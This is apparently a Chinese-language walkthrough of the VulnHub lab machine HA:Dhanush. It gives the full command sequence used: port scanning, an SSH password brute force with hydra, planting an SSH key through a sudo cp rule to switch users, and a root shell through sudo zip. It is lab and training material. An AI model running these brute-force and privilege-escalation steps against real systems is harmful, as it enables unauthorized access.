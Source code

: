 # HA:Dhanush

## 环境

虚拟机平台：VMware Workstation Pro

攻击机：Kali（IP：192.168.253.136）

靶机：Dhanush（IP：192.168.253.141）

下载：https://www.vulnhub.com/entry/ha-dhanush,396/

## Let's go

```
nmap -A -p- 192.168.253.141
```

![](./img/HA：Dhanush-01.png)

> **对网页进行浏览,然而并没有发现任何信息,我们进行枚举**

```
dirb http://192.168.253.141/
```

![](./img/HA：Dhanush-02.png)

> **然而并没有发现什么有用的信息,因此怀疑是不是跟SSH有关**

```
cewl http://192.168.253.141/ -w 1.txt		#爬取网站生成字典
hydra -L 1.txt -P 1.txt  -vV -e nsr 192.168.253.141 ssh -s 65345 -f
```

![](./img/HA：Dhanush-03.png)

```
#username:pinak,password:Gandiv
ssh pinak@192.168.253.141 -p 65345
sudo -l
```

![](./img/HA：Dhanush-04.png)

> **我们需要想办法切换到sarang用户,因此可以使用cp命令将SSH密钥复制到他的.ssh目录中**

```
ssh-keygen
cd .ssh/
chmod 777 id_rsa.pub
```

![](./img/HA：Dhanush-05.png)

```
cp id_rsa.pub ../
cd ../
sudo -u sarang /bin/cp ./id_rsa.pub /home/sarang/.ssh/authorized_keys
ssh sarang@127.0.0.1 -p 65345
```

![](./img/HA：Dhanush-06.png)

>**切换到sarang用户,发现root权限的zip命令**

![](./img/HA：Dhanush-07.png)

```
touch get
sudo zip /tmp/get.zip /home/sarang/get -T --unzip-command="sh -c /bin/bash"
cd /root
cat flag.txt
```

![](./img/HA：Dhanush-08.png)